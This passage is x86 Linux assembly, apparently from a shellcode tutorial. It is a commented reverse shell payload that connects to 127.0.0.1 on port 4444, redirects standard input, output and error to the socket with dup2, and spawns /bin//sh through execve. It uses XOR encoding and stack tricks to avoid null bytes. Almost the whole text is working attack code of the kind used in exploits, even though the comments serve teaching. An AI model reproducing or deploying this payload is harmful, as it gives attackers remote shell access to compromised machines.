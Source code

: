 
	; push 0x0100007f
	mov eax, 0xfeffff80
	xor eax, 0xffffffff
	push eax
	push word 0x5c11 	; port 4444 is 0x5c11
	push word 0x2 		; AF_INET is 2


	mov ecx, esp
	mov dl, 0x10 ; sizeof(struct sockaddr_in)
	xor eax, eax
	mov ax, 0x16a
	int 0x80

	test eax, eax ; check if eax is zero
	jnz exit_on_error


	; Duplicating descriptor 0, 1, 2 to the socket opened by client
	;
	; int dup2(int oldfd, int newfd);
	;
	; dup2 is defined as #define __NR_dup2 63 in /usr/include/i386-linux-gnu/asm/unistd_32.h

	xor ecx, ecx
	mov cl,  2
	xor eax, eax

dup2:
	mov al, 0x3F	; 63 in decimal
	int 0x80	; duplicating file descriptors in backwards order; from 2 to 0
	dec ecx
	jns dup2

	; Executing shell
	;
	; int execve(const char *filename, char *const argv[], char *const envp[]);
	; execve() is defined as #define __NR_execve 11 on /usr/include/i386-linux-gnu/asm/unistd_32.h

	xor eax, eax
	push eax	; The NULL byte
	push 0x68732f2f ; "sh//". The second '\' is used to align our command into the stack
	push 0x6e69622f ; "nib/"
	mov ebx, esp	; EBX now points to "/bin//sh"

	xor ecx, ecx
	xor edx, edx
	mov al, 0xB	; 11 in decimal
	int 0x80

exit_on_error:
	mov bl, 0x1
	xor eax, eax	; zero-ing EAX
	mov al, 0x1
	int 0x80

{% endhighlight %}
